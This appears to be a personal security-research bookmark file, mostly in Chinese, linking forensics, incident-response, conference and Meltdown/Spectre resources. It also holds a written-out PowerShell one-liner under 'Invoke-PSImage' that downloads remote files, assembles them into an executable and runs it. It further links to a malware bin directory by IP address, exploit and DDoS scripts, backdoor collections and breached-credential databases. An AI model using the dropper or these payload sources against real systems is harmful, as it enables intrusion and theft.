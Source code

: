 # IS
Temp
惡意知識庫
https://owl.nchc.org.tw/

TeamViewer Hack Could Be Used By Anyone
https://thehackernews.com/2017/12/teamviewer-hacking-tool.html

106 第2次政府資通安全防護巡迴研討會ー教材開放下載
https://www.nccst.nat.gov.tw/HandoutDetail?lang=zh&seq=1271

DD作VM
virtual forensic computing

2017年置我們于危險之中的那些黑客事件
http://big5.xinhuanet.com/gate/big5/us.xinhuanet.com/2017-12/27/c_129776280.htm

物聯網設備資安檢測
https://www2.deloitte.com/tw/tc/pages/risk/solutions/iot-security.html
https://www.onwardsecurity.com/service/item/57
http://www.cna.com.tw/postwrite/Detail/215698.aspx#.WkNyPlWWbIV

應該是 iot 的 malware
http://80.211.199.204/bins/ 

RAR破解
http://www.crark.net/
https://github.com/s3inlc/hashtopussy
http://m.kl800.com/read/4743d1bd22cc8f99eaaa2250dc69b0fbc6b1b4a3.html#%23%23
rarPasswordCracker

華為ap
https://www.ithome.com.tw/news/120030

kail
http://www.freebuf.com/column/156704.html
http://www.freebuf.com/column/150118.html

java malware
https://github.com/HynekPetrak/javascript-malware-collection

做資料救援  要閱讀各種檔案系統原始碼 跟改寫原有檔案架構Mount 方式

標準流程 先DD,然後 當場開Visutial stidio 寫 build 掃描

https://www.facebook.com/OSSGeekLab/posts/1533862073317741

處理資安事件的流程，首先就是要掃描電子郵件，從掃描信件的標頭與附件中，快速從中找出有害的信件並偵測是否有發現到惡意程式。再者，也要掃描電腦映像檔，掃描相關的登入檔和快取記憶體中的資料，一旦有發現惡意程式導向任何的惡意網路位址（IP），刑事局就會立即採取相對應的行動，如果惡意網址是臺灣內部，偵察人員就會立即到現場調查，但如果是國外的IP，就必須透過國際合作的管道協同作業，才可能順利破案。

密碼檔
https://thehackernews.com/2017/12/data-breach-password-list.html?m=1
https://medium.com/4iqdelvedeep/1-4-billion-clear-text-credentials-discovered-in-a-single-database-3131d0a1ae14

機器人攻擊
https://robotattack.org/#patches


defcon簡報
https://media.defcon.org/
https://media.defcon.org/DEF%20CON%2025/DEF%20CON%2025%20presentations/Cheng%20Lei/

Google Driver
https://drive.google.com/drive/folders/0B9qqqzOjzwW9YTZjNi1yamJRTkE


hitcon pacific .其中一場的簡報
https://www.facebook.com/OSSGeekLab/posts/1547755515261730

微軟挖礦
http://168.61.16.230/

“Skip Cracking Responder Hashes and Replay Them” by Dank Panda (Richard De La Cruz of Tevora).
https://gameofpwnz.com/?p=684

資安新聞及事件週報 2017/12/18 ~ 2017/12/22 
http://tdoh.logdown.com/posts/2017/12/22/news-and-events-weekly-2017-12-18-2017-12-22

swift
https://drive.google.com/drive/folders/0B9qqqzOjzwW9OFFVc0FxOE5CNDA

OSDFCon 2017 快速?急??演示文?
http://www.osdfcon.org/presentations/2017/Asif-Matadar_Rapid-Incident-Response.pdf

EVENT LOG
https://github.com/MicrosoftDocs/windows-itpro-docs/tree/master/windows/device-security/auditing

Plug-In Contest 2017: Hall Of Fame 
https://www.hex-rays.com/contests/2017/index.shtml

Breach Prevention Systems (BPS) Group Test
https://www.peerlyst.com/posts/nss-labs-breach-prevention-systems-bps-group-test-guurhart?trk=wall_page_activity_feed

好用軟體
https://www.magnetforensics.com/magnet-atlas/

IBM AIX Server 快速筆記1 更新與連線
https://www.osslab.com.tw/aixquicknote1/

Invoke-PSImage
https://github.com/peewpw/Invoke-PSImage
https://github.com/samratashok/nishang/tree/master/Backdoors
$webvar=new-object System.Net.WebClient;$address="http://xxxx,http://xxxxx,http://xxxxx".Split(",");$a=@();foreach($url in $address){try{$randomint=Get-Rando -Minimum 2 -Maximum 36677;$filename=$env:public+"\"+$randomint+".jpg";$webvar.DownloadFile($url.ToString(),$filename);$a+=$filename;}catch{write-host $_.Execption.Message;}}$p=$env:public+"\"+"p.exe";$args=$a -join '+';$i="cmd.exe /c copy /b "+$args+" "+$p;iex($i);

Pre-auth Remote Code Execution exploit for QNAP QTS
https://pastebin.com/XAKn6q5Y


https://databases.today/index.php
https://databases.today/search-nojs.php?for=linkdin


https://l2.io/ip.js?var=iplocal
https://www.vulnhub.com/
現場弄個靶機打看看就知道了
拿 OWASPBWA 去改
WEBPTㄧ關 IRㄧ關 證照ㄧ關

red team 有包含WEBPT 但是 也有把APT手段也包進去
作red team
APT SIMULATION?
博奕公司那種
推薦devcore

f5 faw

spam Proofpoint

微軟跟AWS的PK歐 可以參考這份
https://drive.google.com/file/d/0B9qqqzOjzwW9SmotSm85MDhWVTQ/view

https://github.com/D4Vinci/Cr3dOv3r/blob/master/README.md

https://0x0.li/trackmageddon/

課程
http://opensecuritytraining.info/Training.html

提供主機的完整性檢查、日誌檔監測與惡意程式 (Rootkit) 掃描的功能
ossim
alienvault

https://www.ithome.com.tw/voice/120200
https://medium.com/@CQD/翻譯-我是這樣拿走大家網站上的信用卡號跟密碼的-991cb6c4631e


用簡短的話來描述這次漏洞的話，這個安全漏洞可以允許攻擊者在登入虛擬帳號 A 時，任意查看儲存在同一個物理區域的虛擬用戶 B 的所有資料，包含儲存的密碼與資料等機密資訊。
https://buzzorange.com/techorange/2018/01/03/intel-wtf-bug-let-os-rewrite-and-down-performance/
http://www.limitlessiq.com/news/post/view/id/3061/
https://ithelp.ithome.com.tw/articles/10196515

http://powerofcommunity.net/2017.htm
https://drive.google.com/drive/folders/1zd5Pub0c_G2mhaL5jiodDjUU-gI5XChW

http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

ithome鐵人
https://ithelp.ithome.com.tw/users/20084806/ironman/1549
https://ithelp.ithome.com.tw/users/20107304/ironman/1258
https://ithelp.ithome.com.tw/users/20107543/ironman/1492
https://ithelp.ithome.com.tw/users/20107398/ironman/1517
https://ithelp.ithome.com.tw/users/20103647/ironman/1300
https://ithelp.ithome.com.tw/articles/10190946
https://ithelp.ithome.com.tw/articles/10196226

http://www.hexacorn.com/blog/2018/01/04/yet-another-way-to-hide-from-sysinternals-tools/

https://github.com/MISP/misp-warninglists

mitigate dns rebinding attacks against daemon
https://github.com/transmission/transmission/pull/468

https://github.com/deralexxx/security-apis/blob/master/README.md

數位鑑識
http://www.iforensics.com.tw/Products/BelkaSoft.html
https://belkasoft.com/download/kMr3YPQkkQkRZvs6tWSNPFiqjhzJ5GnWYTGYF3Mn

HITCON FreeTalk 20180119
https://hackmd.io/EwBgRiDskJwGwFpgGZmICx0gVgTAjAGaJyEAccAhmPiHAMb71A==?view#
https://www.facebook.com/HITCON/videos/1732117933486188/

Mirai攻擊介紹
https://github.com/lejolly/mirai/blob/master/attack-instructions.md

2018 hacker report
https://ma.hacker.one/rs/168-NAU-732/images/the-2018-hacker-report.pdf

DDOS PHP script
https://github.com/drego85/DDoS-PHP-Script

Awesome Threat Detection and Hunting
https://github.com/0x4D31/awesome-threat-detection

https://attack.mitre.org/wiki/Updates_January_2018

算牌
http://teddygotmail.pixnet.net/blog/post/23263546-21點算牌教學-第1課-%28基本策略%29

Meltdown 與 Spectre 都有用到的 FLUSH+RELOAD
https://blog.gslin.org/archives/2018/01/05/8028/meltdown-與-spectre-都有用到的-flushreload/

Spectre 的攻擊方式
https://blog.gslin.org/archives/2018/01/17/8050/讀書時間%EF%BC%9Aspectre-的攻擊方式/

Meltdown 的攻擊方式
https://blog.gslin.org/archives/2018/01/07/8030/讀書時間%EF%BC%9Ameltdown-的攻擊方式/
https://blog.gslin.org/archives/2018/01/07/8030/讀書時間%EF%BC%9Ameltdown-的攻擊方式/comment-page-1/#comment-412190



